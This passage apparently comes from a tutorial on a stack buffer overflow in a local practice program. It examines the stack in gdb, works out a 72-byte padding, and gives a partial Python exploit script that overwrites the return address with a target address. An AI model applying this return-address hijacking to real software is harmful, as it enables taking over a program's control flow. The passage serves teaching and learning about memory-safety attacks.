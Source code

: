   * `x`: e**x**amine command.
  * `/32gx`: Show 32 **g**iant word (64-bit) data in he**x** format.

```
(gdb) x/32gx $rbp
```

The output of this command will be similar to:

```
0x7fffffffe318: 0x4141414141414141      0x00007ffff7a2d830
0x7fffffffe328: 0x00000000004011e9      0x0000000100000000
...
```

**How do we interpret this output?**

  * `0x7fffffffe318:`: Memory address on the stack.
  * `0x4141414141414141`: This is exactly where the return address should be. The last 8 bytes of our 72-byte 'A' input have landed here. This confirms that we need **72 bytes of padding** to control the return address.

### 5. Developing and Running the Exploit

Now we have all the information:

1.  **Required Padding Size:** 72 bytes.
2.  **Target Address:** The address we found with `objdump` (e.g., `0x401186`).

Using this information, we can write our exploit. Our payload will be `[ 72 byte 'A' ] + [ 8 byte Target Address ]`.

```python
# exploit_final.py
import struct
import subprocess
import sys

# Name of the compiled vulnerable program
VICTIM_PROGRAM = "./vulnerable_code"

# --- FIND THIS ADDRESS WITH GDB ON YOUR OWN SYSTEM ---
# Example: 0x4011e9
TARGET_ADDRESS = 0x401146  # <-- UPDATE THIS LINE WITH THE ADDRESS YOU GOT FROM GDB

# Calculated padding size for 64-bit architecture
# [64 byte buffer] + [8 byte saved RBP] = 72 bytes
PADDING_SIZE = 72

def main():
    """
    Main function that initiates the exploitation process.
    """
    print("--- [ATTACKER] Stack Overflow Exploit Started ---")
    
    if TARGET_ADDRESS == 0x4011e9:
        print("\n[!] WARNING: Don't forget to update TARGET_ADDRESS with your system's address!\n")

    print(f"[*] Target Address: {hex(TARGET_ADDRESS)}")
    print(f"[*] Padding Size: {PADDING_SIZE}")
    
    # Create payload: [ 72 byte padding ('A') ] + [ 8 byte target address ]
    padding = b'A' * PADDING_SIZE
    
    # Pack address in 64-bit (8 byte) little-endian format
    overwrite_address = struct.pack("<Q", TARGET_ADDRESS)
    
    payload = padding + overwrite_address
```